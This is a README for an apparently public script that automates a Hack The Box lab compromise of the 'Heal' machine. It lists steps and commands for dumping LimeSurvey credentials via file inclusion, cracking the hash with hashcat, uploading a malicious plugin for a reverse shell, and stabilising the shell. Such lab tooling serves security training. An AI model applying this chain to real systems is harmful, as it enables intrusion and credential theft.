 # Heal HTB AutoPwn – Autopwn Script

A full exploitation automation script for the **Heal** Linux machine on Hack The Box. Full write Up -> [WriteUp.md](https://github.com/maikneysm/AutoPwn-Heal.htb/blob/main/WriteUp.md)
## 📋 Description

This tool automates the following:
- Dumping LimeSurvey credentials via LFI
- Cracking the password hash manually (Hashcat/rockyou)
- Deploying a malicious LimeSurvey plugin to trigger a reverse shell
    

---
## 🧠 Requirements

- Python 3.8+
- `requests`
- `bs4`
- `colorama` (optional for colored output)
- A working `burpsuite` proxy on localhost:8080 (if you want to intercept traffic)
    

Install dependencies with:

```bash
pip install requests beautifulsoup4
```

---
## ⚙️ Usage

### Phase 1: Dump and Crack Credentials

```bash
python3 autopwn.py --type getCredentials
```

This will:
- Log in to thevulnerable API
- Dump the SQLite file via LFI
- Extract the email and password hash
- Print the hash with a note like:
    

```
Crack this hash using `hashcat` or a wordlist like `rockyou.txt`
Once cracked, proceed to the next phase with --type getRevShellSlime
```

You can crack it like this:

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

---

### Phase 2: Deploy Reverse Shell via LimeSurvey Plugin
```bash
python3 autopwn.py \
  --type getRevShellSlime \
  --lhost <YOUR-IP> \
  --lport <YOUR-PORT> \
  --adminuser ralph@heal.htb \
  --adminpass <CRACKED-PASSWORD>
```

This will:

1. Generate a malicious LimeSurvey plugin (`pwned.zip`)
2. Log in to the LimeSurvey admin panel
3. Upload and install the plugin
4. Trigger the reverse shell
5. Automatically start a listener and spawn a `/bin/bash` shell
    

---

## 💡 Notes

- The tool checks if the plugin is already uploaded before re-uploading it.
- You can kill the listener cleanly with `Ctrl+C`.
- The script handles CSRF token parsing and redirections automatically.
- If the reverse shell behaves oddly, you can stabilize it inside the shell with:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
